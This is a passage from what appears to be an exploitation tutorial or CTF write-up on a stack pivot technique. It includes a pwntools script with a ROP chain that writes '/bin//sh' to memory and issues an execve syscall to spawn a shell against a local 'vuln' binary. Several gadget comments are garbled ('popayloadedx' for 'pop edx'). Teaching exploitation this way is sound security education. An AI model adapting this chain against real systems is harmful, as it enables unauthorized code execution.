This means that between the time we overflow, and the time we execute the ret instruction, the stack (well, our ESP in the stack) has been altered.

But... We have ESP + 4? Yes. Do we know how to add up? Yes.

<img class="img_med" src="coincidence.gif" alt="coincidence" >

I hope you're starting to see where we're going with this? :)

We know where to store bytes. We control EIP since we control ESP on a ret. We know the offset, and we know how to modify ESP so that it takes the value of our choice... Justwreckit!

That's the right time to announce you the technique we're going to use, a Stack Pivot!

We will rotate the execution of our program, making it believe that the stack is where the username is, which we can define as we wish, of course.

I pass the creation of the ropchain as it's exactly like in the previous article, we'll do our exploit right away:

```python
#!/usr/bin/env python2

from pwn import *

# Setting up
context.log_level = "debug"

ropchain = ''
ropchain += p32(0x0806ebaa)  # popayloadedx ; ret
ropchain += p32(0x080ea340)  # @ .data
ropchain += p32(0x080bb696)  # popayloadeax ; ret
ropchain += '/bin'
ropchain += p32(0x08097276)  # mov dword ptr [edx], eax ; popayloadebx ; ret
ropchain += p32(0x41414141)  # padding
ropchain += p32(0x0806ebaa)  # popayloadedx ; ret
ropchain += p32(0x080ea344)  # @ .data + 4
ropchain += p32(0x080bb696)  # popayloadeax ; ret
ropchain += '//sh'
ropchain += p32(0x08097276)  # mov dword ptr [edx], eax ; popayloadebx ; ret
ropchain += p32(0x41414141)  # padding
ropchain += p32(0x0806ebaa)  # popayloadedx ; ret
ropchain += p32(0x080ea348)  # @ .data + 8
ropchain += p32(0x080545b0)  # xor eax, eax ; ret
ropchain += p32(0x08097276)  # mov dword ptr [edx], eax ; popayloadebx ; ret
ropchain += p32(0x41414141)  # padding
ropchain += p32(0x080481a9)  # popayloadebx ; ret
ropchain += p32(0x080ea340)  # @ .data
ropchain += p32(0x080c18cc)  # popayloadecx ; ret
ropchain += p32(0x080ea348)  # @ .data + 8
ropchain += p32(0x0806ebaa)  # popayloadedx ; ret
ropchain += p32(0x080ea348)  # @ .data + 8
ropchain += p32(0x080545b0)  # xor eax, eax ; ret
ropchain += p32(0x0807b64f) * 11 # inc eax ; ret
ropchain += p32(0x080494b1)  # int 0x80

p = process("./vuln")
p.recv()
```